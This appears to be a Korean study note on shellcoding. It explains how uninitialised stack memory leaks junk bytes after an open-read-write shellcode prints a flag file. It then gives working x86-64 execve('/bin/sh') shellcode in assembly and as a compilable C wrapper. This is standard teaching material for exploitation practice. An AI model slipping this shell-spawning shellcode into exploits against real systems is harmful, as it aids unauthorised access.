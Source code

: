 
## 메모리 릭
초기화되지 않은 메모리 영역 사용
위의 예시에서 `/tmp/flag`의 데이터 외에 알 수 없는 문자열이 출력되는 경우가 있는데,
이는 메모리 릭의 의한 것
스택에서 해제라는 것은 사용한 영역을 0으로 초기화하는 것이 아니라, 단순히 rsp와 rbp를 호출한 함수의 것으로 이동시키는 것이기 때문에
어떤 함수를 해제한 이후, 다른 함수가 스택 프레임을 그 위에 할당하면, 이전 스택 프레임의 데이터는 여전히 새로 할당한 스택 프레임에 존재하게 됨
이를 쓰레기 값이라고 표

```sh
$ ./orw
flag{this_is_open_read_write_shellcode!}&��U
```


# execve shellcode
일반적인 쉘코드
`execve(“/bin/sh”, null, null)`를 실행시키면 됨

|**syscall**|**rax**|**arg0 (rdi)**|**arg1 (rsi)**|**arg2 (rdx)**|
|---|---|---|---|---|
|execve|0x3b|const char *filename|const char *const *argv|const char *const *envp|

argv는 실행파일에 넘겨줄 인자, envp는 환경변수
sh만 실행하면 되므로 다른 값들은 전부 null로 설정해줘도 됨
```
;Name: execve.S

mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

```
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```
